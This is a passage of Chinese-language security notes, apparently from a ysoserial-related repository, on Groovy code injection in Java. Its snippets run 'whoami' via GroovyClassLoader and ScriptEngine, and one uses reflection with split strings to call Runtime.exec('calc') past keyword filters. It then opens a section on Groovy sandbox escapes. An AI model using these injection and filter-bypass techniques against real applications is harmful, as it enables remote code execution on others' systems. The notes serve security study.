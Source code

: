 GroovyClassLoader是一个定制的类装载器，负责解释加载Java类中用到的Groovy类，重写了loadClass和defineClass方法

`parseClass` 可以直接从文件或者字符串中获取groovy类

```java
//从文件中获取Groovy类
GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
Class aClass = groovyClassLoader.parseClass(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
GroovyObject object = (GroovyObject) aClass.newInstance();
object.invokeMethod("main", "");
```

```java
//从文本中获取Groovy类
GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
Class aClass = groovyClassLoader.parseClass("class GroovyTest {\n" +
"    static void main(args){\n" +
"        println \"${'whoami'.execute().text}\"\n" +
"\n" +
"    }\n" +
"}");
GroovyObject groovyObject = (GroovyObject) aClass.newInstance();
groovyObject.invokeMethod("main", "");
```

#### ScriptEngine

在ScriptEngine中，支持名为“groovy”的引擎，可用来执行Groovy代码。这点和在SpEL表达式注入漏洞中讲到的同样是利用ScriptEngine支持JS引擎从而实现绕过达到RCE是一样的

```java
ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByName("groovy");
System.out.println(scriptEngine.eval("\"whoami\".execute().text"));
```

### bypass方法

#### 反射+字符串拼接

```java
import java.lang.reflect.Method;
Class<?> rt = Class.forName("java.la" + "ng.Run" + "time");
Method gr = rt.getMethod("getR" + "untime");
Method ex = rt.getMethod("ex" + "ec", String.class);
ex.invoke(gr.invoke(null), "ca" + "lc")
```

#### Groovy沙箱绕过

Groovy代码注入都是注入了execute()函数，从而能够成功执行Groovy代码，这是因为不是在Jenkins中执行即没有Groovy沙箱的限制。但是在存在Groovy沙箱即只进行AST解析无调用或限制execute()函数的情况下就需要用到其他技巧了

##### @AST注解执行断言

https://www.groovy-lang.org/metaprogramming.html#_available_ast_transformations
